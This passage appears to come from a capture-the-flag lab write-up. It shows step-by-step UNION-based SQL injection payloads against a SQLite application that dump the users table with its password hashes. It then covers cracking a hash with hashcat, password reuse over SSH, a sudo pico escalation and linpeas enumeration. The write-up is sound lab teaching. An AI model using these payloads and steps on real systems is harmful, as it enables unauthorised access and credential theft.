 * We know that there are 4 columns, we can now attempt to find data type for the columns:

```sql
admin' UNION SELECT 'a','a','a','a'--
#confirms that all four columns are of string type
```

* Meanwhile, ```sqlmap``` shows that the back-end DBMS is ```SQLite```; we can use [payloads specific to SQLite](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) then.

* Payload to print version:

```sql
admin' UNION SELECT sqlite_version(),'a','a','a'--
#we get version 3.22.0
```

* Payload to print table name:

```sql
admin' UNION SELECT group_concat(tbl_name),'a','a','a' FROM sqlite_master--
#gives table name 'users'
```

* Payload to get column names from table 'users':

```sql
admin' UNION SELECT sql,'a','a','a' FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='users'--
#gives columns - name, password, admin, notes
```

* Payload to get data from all columns:

```sql
admin' UNION SELECT group_concat(name||'~'||password||'~'||admin||'~'||notes),'a','a','a' FROM users--
```

* As this data can be tough to view in ```Burp Suite```, we can use this payload in browser and view it in JSON form.

* As we have used the tilde sign (~) as separators, we can see that there are too many entries.

* However, for one entry, the 'note' column has a different entry:

```My linux username is my first name, and password uses best64```

* This entry is for 'Harry Turner'; and 'best64' refers to a ```hashcat``` rule.

* So, we can copy the hash and attempt to crack it using ```hashcat``` - it is a SHA512 hash so we will have to use the corresponding mode.

* Cracking the hash gives us the password "wingardiumleviosa123"; now, we can login.

* Logging in, we get the message:

```Even though Ron said password reuse is bad, I don't really care```

* This means we can attempt to login as 'harry' via SSH using the same password.

* SSH login works and we get user flag 1.

* ```sudo -l``` shows that we can run ```pico``` program as user 'hermonine'.

* GTFObins has a ```sudo``` exploit for ```pico```, so we can use that to get shell as 'hermonine' and get user flag 2.

* For privesc, we can now use ```linpeas```.

* This identifies an unknown SUID binary ```/srv/time-turner/swagger```.
```